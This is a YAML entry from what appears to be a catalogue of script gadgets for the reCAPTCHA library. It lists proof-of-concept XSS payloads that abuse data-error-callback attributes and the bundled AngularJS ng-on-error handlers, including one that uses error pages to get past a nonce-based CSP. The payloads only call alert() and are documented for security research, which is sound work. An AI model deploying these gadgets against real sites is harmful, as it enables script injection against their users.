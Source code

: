 ```yaml
---
description: reCAPTCHA is a free service that protects your site from spam and abuse. It uses advanced risk analysis techniques to tell humans and bots apart.
gadgets:
  Latest (1):
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - class-attr
      - data-attr
      - before-lib-load
    pocs:
      - description: The [reCAPTCHA](https://developers.google.com/recaptcha) library allows to call a function under specific events (e.g. `error-callback`) through `data-*` attributes.
        code: |
          <script src="https://www.google.com/recaptcha/api.js" async defer></script>

          <!-- user input -->
          <x class="g-recaptcha" data-sitekey="1337" data-error-callback="alert"></x>
    links:
      - https://developers.google.com/recaptcha/docs/display#render_param
      - https://gist.github.com/terjanq/e2198440c4fdfbdec43e921b600d4a1d#recaptcha-for-the-rescue
      - https://blog.huli.tw/2022/04/13/en/notes-challenge-author-writeup/
  Latest (2):
    authors:
      - twitter:terjanq
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - custom-attr
      - wh-host-csp
      - unsafe-eval-csp
      - before-lib-load
    pocs:
      - description: The [reCAPTCHA](https://developers.google.com/recaptcha) library brings under the hood AngularJS.
        code: |
          <script nonce="secret" src='https://www.google.com/recaptcha/about/js/main.min.js'></script>

          <!-- user input -->
          <img src=x ng-on-error='$event.target.ownerDocument.defaultView.alert($event.target.ownerDocument.domain)'>
      - description: The is another more generic payload that can be used to bypass CSP using error pages.
        code: |
          <script nonce="secret" src='https://www.google.com/recaptcha/about/js/main.min.js'></script>

          <!-- user input -->
          <iframe id="ifr" src="/%GG"></iframe>
          <img src=x ng-on-error="
            win=$event.target.ownerDocument.defaultView;
            win.ifr.contentWindow.document.write.bind(win.ifr.contentWindow.document, ['<script>alert(document.domain)</script>'])()
          ">
    links:
      - https://github.com/google/google-ctf/tree/main/2023/quals/web-noteninja
      - https://joaxcar.com/blog/2024/02/19/csp-bypass-on-portswigger-net-using-google-script-resources/
---
```

